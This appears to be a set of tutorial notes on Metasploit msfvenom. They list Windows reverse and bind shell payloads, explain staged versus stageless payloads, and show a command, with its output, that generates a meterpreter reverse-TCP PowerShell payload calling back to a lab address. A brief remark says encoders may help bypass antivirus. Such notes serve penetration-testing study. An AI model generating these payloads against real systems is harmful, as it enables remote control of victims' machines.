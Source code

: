 ```
#windows/x64/shell_reverse_tcp
#windows/x64/shell/bind_tcp
#windows/x64/meterperter_bind_tcp
# windows/x64/meterperter_reverse_tcp
#windows/powershell_bind_tcp

```

### Stage / StageLess

> Stage will cook the payloads in stage ‘\_’.
>
> Stagless will cook the payloads all together ‘/’.

> Stageless : stageless payload it can be in EXE , C , PYTHON and that exe would having every functionality to communicate with the attacker
>
> Stage :  it required the Metasploit to interreact.

&#x20;

> Stageless: everything is there in that payloads.
>
> Stage : not everything is there in that payloads the reset payloads will be available when connected to attacker.

> Like the name speak it will be in stages like stage1 – stage2 and more..
>
> Attacker generates stage version exe to victim , victim will connect to attacker after that , attacker give victim the stage2 which every functionality to communicate further

**Stageless  >> exe  >>  every functionality >>  to communicate with the attacker**

**Stage >>  only initials communication code will be included and the rest code will be supplied post connections**

### **Formats**

> Frame Transform Formats
>
> * It will give the payloads/shells code, using that shells it can add any program , which can compile and executed to the target.
> * It limits with Metasploit encoders

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.100.130 lport=5555 -f powershell 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of powershell file: 2503 bytes

```

> That binary is the code which has to be executed manually to PowerShell program for the reverse connection to attacker.
>
> It give more freedom to customize encoders and maybe bypass the antivirus.
>
> Both transform & Execute formats has a difference in size
